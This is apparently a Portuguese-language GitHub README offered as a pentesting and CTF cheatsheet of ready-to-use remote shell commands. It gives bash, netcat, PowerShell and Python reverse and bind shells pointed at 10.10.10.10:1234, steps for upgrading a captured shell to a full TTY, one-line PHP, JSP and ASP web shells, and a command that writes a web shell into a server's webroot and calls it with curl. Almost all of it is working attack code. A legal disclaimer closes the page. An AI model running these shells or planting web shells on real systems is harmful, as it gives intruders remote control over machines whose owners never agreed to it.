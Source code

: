 # 🐚 Cheatsheet: Reverse Shells, Bind Shells & TTY

Este repositório traz um conjunto prático de comandos úteis para obtenção de shells remotas durante testes de penetração, exploração ou CTFs.

Gerador de shell reversa bastante útil: [reverse-shell.sh](https://reverse-shell.sh/)

---

## 📡 Reverse Shell

Um *reverse shell* é quando a máquina alvo se conecta de volta ao nosso host, nos fornecendo uma shell remota.

- Bash: `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
- Netcat + FIFO: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 >/tmp/f`
- PowerShell: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

---

## 🔗 Bind Shell

Um *bind shell* escuta conexões em uma porta específica da máquina alvo. Diferente do reverse shell, **nós nos conectamos ao alvo**.

- Bash: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 >/tmp/f`
- Python: `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
- PowerShell: `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ' ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

---

## 🖥️ TTY Shell Upgrade

Use isso para obter uma shell mais interativa (ex: com tab-completion e atalhos funcionais):

1. Use: `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Coloque a shell em segundo plano com `CTRL + Z`
3. No seu terminal local, digite: `stty raw -echo`
4. Volte para a shell com `fg` e pressione `Enter` duas vezes
5. A shell agora está interativa!

Podemos notar que nosso shell não cobre todo o terminal. Para corrigir isso, precisamos descobrir algumas variáveis. Podemos abrir outra janela de terminal em nosso sistema, maximizar as janelas ou usar qualquer tamanho que quisermos e, em seguida, inserir os seguintes comandos para obter nossas variáveis:

- Gust4vo@htb[/htb]$ echo $TERM xterm-256color
- Gust4vo@htb[/htb]$ stty size 67 318



---

## ℹ️ Notas

- Substitua `10.10.10.10` pelo seu IP local
- Altere a porta `1234` conforme necessário
- Para escutar conexões, use: `nc -lvnp 1234`

---

## 🌐 Web Shell

A *Web Shell* normalmente é um script web, ou seja., PHP ou ASPX, que aceita nosso comando através de parâmetros de solicitação HTTP, tais como GET ou POST solicitar parâmetros, executa nosso comando e imprime sua saída de volta na página da web.

- php: `<?php system($_REQUEST["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Uma vez que temos o nosso shell web, precisamos colocar o nosso script shell web no diretório web do host remoto (webroot) para executar o script através do navegador web.


Se fosse um Linux executando Apache por exemplo seria `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`, e podemos acessar a web shell pela URL e pelo curl.

curl "http://example.com/shell.php?cmd=whoami"

---

## Tecnicas de bypass de extensão shell </br>
<img width="542" height="848" alt="image" src="https://github.com/user-attachments/assets/af956b20-0722-46e8-9d86-e8e386792023" />

---

> ⚠️ **Aviso legal:** Todos os comandos aqui têm propósito educacional e devem ser utilizados somente em ambientes controlados ou com permissão explícita.
